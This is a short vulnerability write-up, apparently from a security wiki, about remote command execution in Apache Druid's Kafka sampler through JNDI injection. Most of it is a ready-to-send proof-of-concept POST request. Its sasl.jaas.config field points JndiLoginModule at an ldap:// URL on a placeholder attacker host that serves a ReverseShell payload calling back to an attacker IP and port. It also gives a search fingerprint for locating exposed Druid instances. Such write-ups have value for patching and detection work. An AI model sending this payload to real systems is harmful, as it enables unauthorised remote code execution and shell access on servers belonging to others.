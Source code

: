 # Apache Druid sampler kafka remote command execution vulnerability

## Vulnerability Description

Apache Druid supports loading data from Kafka. Malicious attackers can modify the Kafka connection configuration properties to further trigger JNDI injection attacks. In the end, the attacker can execute any malicious code on the server and obtain system service permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Druid </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title_string = "Apache Druid"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682919141181-6c39b2c9-e803-4fa3-af91-4c933f863780.png)

Verify POC

```python
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 1392
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close  

{
    "type":"kafka",
    "spec":{
            "type":"kafka",
            "ioConfig":{
                "type":"kafka",
                "consumerProperties":{
                    "bootstrap.servers":"6.6.6.6:9092",
                    "sasl.mechanism":"SCRAM-SHA-256",
                    "security.protocol":"SASL_SSL",
                    "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://xxx.xxx.xxx.xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/8373\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
                },
                "topic":"any",
                "useEarliestOffset":true,
                "inputFormat":{
                    "type":"regex",
                    "pattern":"([\\s\\S]*)",
                    "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                    "columns":[
                            "raw"
                    ]
                }
            },
            "dataSchema":{
                "dataSource":"sample",
                "timestampSpec":{
                    "column":"!!!_no_such_column_!!!",
                    "missingValue":"1970-01-01T00:00:00Z"
                },
                "dimensionsSpec":{        

                },
                "granularitySpec":{
                    "rollup":false
                }
            },
            "tuningConfig":{
                "type":"kafka"
            }
    },
    "samplerConfig":{
            "numRows":500,
            "timeoutMs":15000
    }
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682919248408-90090556-799e-4a7a-9d54-d6ef94541686.png)